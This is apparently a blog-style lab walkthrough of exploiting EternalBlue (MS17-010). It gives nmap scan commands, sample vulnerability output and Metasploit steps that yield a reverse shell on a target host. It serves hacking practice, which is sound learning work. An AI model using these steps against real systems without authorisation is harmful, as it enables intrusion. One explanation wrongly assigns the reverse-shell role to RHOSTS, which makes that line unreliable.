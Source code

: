 ```yaml
---
title: "Eternal Blue Exploit"
excerpt: "finding out and exploiting smb on port 445"
date: 2025-07-23
tags: [nmap, exploits, eternalblue, wanacry]
layout: single
author_profile: true
---
```

### What Is EternalBlue?

ternalBlue (tracked as MS17–010) is a vulnerability in Microsoft’s Server Message Block (SMB) protocol, 
specifically on port 445. SMB helps devices on a network (like printers and file servers) 
communicate with each other.

The National Security Agency (NSA) originally discovered this vulnerability and created an 
exploit for it. Eventually, it was leaked and adapted by hackers into the WannaCry ransomware,
causing global havoc.

steps are as follows:

1. run nmap -p 445 10.10.50.15 on your target to confirm that SMB (port 445) is open because
 EternalBlue attacks the SMB service.
2. Check vulnerability by running sudo nmap -sV -vv --script vuln 10.10.50.15. In the host script
 results you would see something like ost script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   **VULNERABLE:**
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: **VULNERABLE**

3. Start metasploit by running **msfconsole** in your terminal
4. Your vulnerability was ms17-010 as per the above report , so tun **search ms17-010**
    or just do **search scanner eternalblue**
   The exploitation code is exploit/windows/smb/ms17_010_eternalblue so use the exploit by running
   exploit/windows/smb/ms17_010_eternalblue
5.  Run **show option** to see the required value which is **RHOSTS** This tells Metasploit who the target is.
6.  INterminal , **set RHOSTS 10.10.7.58** then enter. This tells Metasploit where to receive the reverse shell.
7.  check your LHOST by running ip a | grep tun0, it is inet 10.23.144.37/16 scope global tun0
8.  also set alhost ie **set LHOST 10.23.144.37**
9.  run the exploit **run** after it runs, you may need to press **enter** to make it show prompt
    i.e **C:\Windows\System32>** if you wish you may try command like
      whoami
      hostname
      ipconfig       to prove the RHOST terminal is now displaying on your side

11.  While still in the shell (where you see C:\Windows\system32>), press: CTLL + Z,
    This will return you to the Metasploit console (msf6 >),
     while keeping that session active in the background. Run commands like sessions -i 85 later
      to go back into the shell.

